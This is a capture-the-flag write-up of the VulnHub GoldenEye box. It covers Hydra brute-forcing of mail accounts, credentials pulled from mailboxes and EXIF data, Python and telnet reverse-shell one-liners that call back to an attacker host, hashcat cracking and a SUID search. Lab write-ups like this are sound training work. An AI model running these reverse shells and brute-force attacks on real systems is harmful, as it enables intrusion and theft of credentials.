---
tags:
  - box
platform: VulnHub
os: Linux
difficulty:
date_completed:
mitre_attack: T1087, T1552.001, T1110.002, T1505.003, T1068
status: rooted
---

## Target

**IP Address:** 192.168.1.15

## Recon

### Host Discovery

#Fping

```bash
sudo fping -q -a -A -n -s -g 192.168.1.0/24 | tee networkScan
arp -a | grep -i 08:00:27:EE:17:2B
```

#### Findings

Already had the MAC address of the device, used fping to send data out and discover what was on the network, then queried the ARP table for the MAC to get the IP.

- IP Address: 192.168.1.15
- MAC Address: 08:00:27:EE:17:2B

### Port Scan

#Nmap #Dirb #Sn1per #Burp

```bash
ipAddress=192.168.1.15
sudo nmap -T4 -O -sV -sC -p- -oN targetScan $ipAddress
dirb http://$ipAddress/
sudo sniper -t $ipAddress
telnet 192.168.1.15 25
telnet 192.168.1.15 55007
```

#### Findings



| Port | Service | Version |
|---|---|---|
| 25 | SMTP | Postfix smtpd |
| 80 | HTTP | Apache httpd 2.4.7 |
| 55006 | SSL/POP3 | Dovecot pop3d |
| 55007 | pop3 | Dovecot pop3d |

## Enumeration

### SMTP

Telnet in and verified Boris and Natalya are valid users, but couldn't log in as either.

### HTTP

Dirb returned `index.html` and `server-status` - not much there, but checked the page anyway. Landed on "Servernaya Auxiliary Control Station," pointing to `/sev-home/` to log in, which gives a login popup.

Using Burp, found the source code of the fake terminal (written in JavaScript) - a comment tells Boris to change his password, with an encoded value below it, and a note that Natalya can break Boris's codes.



Burp decoded the encoded text: `InvincibleHack3r`.



Tried the username `boris` with this password - worked.



Logged in message: email a GNO supervisor for admin training; the POP3 server runs on high, unused ports for "security through obscurity." Source code comments confirm Natalya and Boris are the GNO Supervisors.



Realized the note about changing the default password referred to the actual server login, not the message content.

### Dovecot / POP3

Dovecot pop3d - open source IMAP/POP3 server for Unix. Default port is 143, so 55006/55007 being used instead is more "security through obscurity." Tried two known Dovecot exploits (remote email disclosure, remote command injection via Metasploit) - neither worked, server wasn't misconfigured that way.

#Hydra #Linpeas #Python

```bash
hydra -l boris -P /usr/share/wordlists/fasttrack.txt -f pop3://192.168.1.15:55007
hydra -l natalya -P /usr/share/wordlists/fasttrack.txt -f pop3://192.168.1.15:55007
hydra -l doak -P /usr/share/wordlists/fasttrack.txt -f pop3://192.168.1.15:55007
```

Cracked Boris's POP3 password: `secret1!`. Cracked Natalya's: `bird`. Cracked Doak's: `goat`.








### Mining the Mailboxes

Boris's inbox mentions emails aren't scanned and that Boris is an admin, plus new names: Root, Alec, Xenia.






Xenia isn't a POP3 user - must be reachable another way (HTTP).

Natalya's inbox reveals Janus (a crime syndicate after GoldenEye) and, in email 2, credentials plus a new hostname: point `/etc/hosts` at `severnaya-station.com`, username `xenia`, password `RCP90rulez!`.





Doak's inbox: username `dr_doak`, password `4England!`.




### HTTP (severnaya-station.com)

After the hosts file update, reached the new site - login button, "message the admin" text box referencing user `admin`.




Logged in as Xenia - no enrolled courses, but a message from Dr. Doak pointing at the POP3 creds found above.



Logged in as Doak instead of Xenia using the recovered creds.



Found a folder "for James" with `s3cret.txt` in Doak's private files.



The file points to `/dir007key/for-007.jpg` and mentions Doak got the admin credentials in cleartext but can't send them directly.



Retrieved the image.


### Steganography

EXIF data on the image contained an encoded description.



```bash
echo "eFdpbnRlcjE5OTV4IQ==" | base64 -d
```

Decoded to the admin password: `xWinter1995x!` (username `admin`).



## Exploitation

Logged in as admin, viewed the user list.




Reset Boris's and Natalya's passwords to `Password1!` - neither account had anything of interest once logged in.

Found a settings page with server paths, including a reverse-shell-style command:
```
sh -c '(sleep 4062|telnet 192.168.230.132 4444|while : ; do sh && break; done 2>&1|telnet 192.168.230.132 4444 >/dev/null 2>&1 &)'
```



Had to change the system's spell checker plugin setting first. Set up a listener:

```bash
nc -lnvp 4444
```

Then added the following to the spell-check file location:

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.1.18",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

Triggering a spellcheck from a text box popped the reverse shell.

```python
python -c 'import pty; pty.spawn("/bin/bash")'
```



## Privilege Escalation

`id` showed www-data, no groups. `sudo -l` needed a password I don't have (blank didn't work). Home directory had `html` and `moodledata`.



Found `splashAdmin.php`, mentioning an alternative to the GCC compiler - CLANG, since the box uses FreeBSD-style tooling.




Found `006-final/xvf7-flag` - turned out to be a decoy/goose chase, kept as a note just in case.




#Linpeas

Ran from `/tmp`. Found a bad Linux kernel version (3.13.0-32-generic - kernel exploit candidate) and a bad gcc version (4.8.2 - useful for buffer overflows).



Found an `.htpasswd` file:
```
boris:$apr1$vg2drJim$wUDKP9TLw5jq4GS5jq2240
ops:$apr1$mVvEblRU$oHDbEs4QP2YTUG25Z1PoP.
```



```bash
hashcat -m 1600 -a 0 htpasswdHashes.txt /usr/share/wordlists/rockyou.txt
```

Cracked ops's password: `123` (only useful for the sev-home page, no extra access). Found possible SSH key files (SSH isn't open on this box, so likely SSL keys) and additional creds in config PHP files.




Noted a long list of CVEs to consider (dirtycow, sudo baron samedit, overlays, etc.) plus a PostgreSQL config check (`/etc/postgresql/9.3/main`) - couldn't connect since it's set to peer auth, not password, and the config wasn't editable.




Checked for sticky bit binaries:
```bash
find / -perm -4000 -type f -exec ls -al {} \; 2>/dev/null
```

Found 20 files with the sticky bit set.


